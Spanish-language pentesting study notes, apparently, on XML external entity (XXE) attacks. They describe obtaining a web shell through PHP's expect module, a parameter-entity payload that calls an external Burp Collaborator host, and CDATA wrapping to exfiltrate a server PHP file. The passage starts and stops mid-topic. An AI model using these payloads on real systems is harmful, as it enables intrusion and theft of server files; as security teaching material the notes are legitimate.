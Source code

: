 >[!tip]
>reemplazamos todos los espacios en el código XML anterior con `$IFS`, para evitar romper la sintaxis XML. Además, muchos otros caracteres como `|`, `>` y `{` pueden romper el código, por lo que debemos evitar usarlos.

Una vez que enviamos la solicitud, deberíamos recibir una solicitud en nuestra máquina para el archivo `shell.php`, después de lo cual podemos interactuar con el shell web en el servidor remoto para la ejecución del código.

>[!note]
>El módulo expect no está habilitado/instalado de forma predeterminada en los servidores PHP modernos, por lo que este ataque puede no funcionar siempre. Esta es la razón por la que XXE generalmente se usa para divulgar archivos locales confidenciales y código fuente, lo que puede revelar vulnerabilidades adicionales o formas de obtener la ejecución del código.

## XML PARAMETER ENTITY

Un tipo especial de entidad que comienza con un carácter `%` y solo se puede usar dentro de la DTD (DOCTYPE interno o externo). Lo que es único acerca de las entidades de parámetros es que si las referenciamos desde una fuente externa (por ejemplo, nuestro propio servidor), entonces todas ellas se considerarían externas y se pueden unir.

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://rwrh125de0xdvqhxr06xqjsd44avyk.burpcollaborator.net"> 
%xxe; <!--se lo declara dentro del DTD-->
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

![[Pasted image 20230204205949.png]]

>[!note]
>La entidad especial comienza con porcentaje y un espacio `% `.

## Advanced Exfiltration with CDATA

En la anterior seccion vimos como habia caracteres que podian romper la estructura del XML como el caracter **espacio** y por eso lo reemplazabamos con `$IFS`. 

Para generar datos que no se ajustan al formato XML, podemos envolver el contenido de la referencia del archivo externo con una etiqueta `CDATA` (p. ej `<![CDATA[ FILE_CONTENT ]]>`). De esta forma, el analizador XML consideraría esta parte como datos sin procesar, que pueden contener cualquier tipo de datos, incluidos los caracteres especiales.

Una manera fácil de abordar este problema sería definir 

- Una entidad interna `begin` con el valor `<![CDATA[`.
- Una entidad interna `file` con el valor que queramos leer `SYSTEM "file:///var/www/html/submitDetails.php"`.
- Una entidad interna `end` con el valor `]]>`.

Despues creamos una entidad que una estas 3 entidades para concatenerlas:

```xml
<!ENTITY joined "%begin;%file;%end;">
```
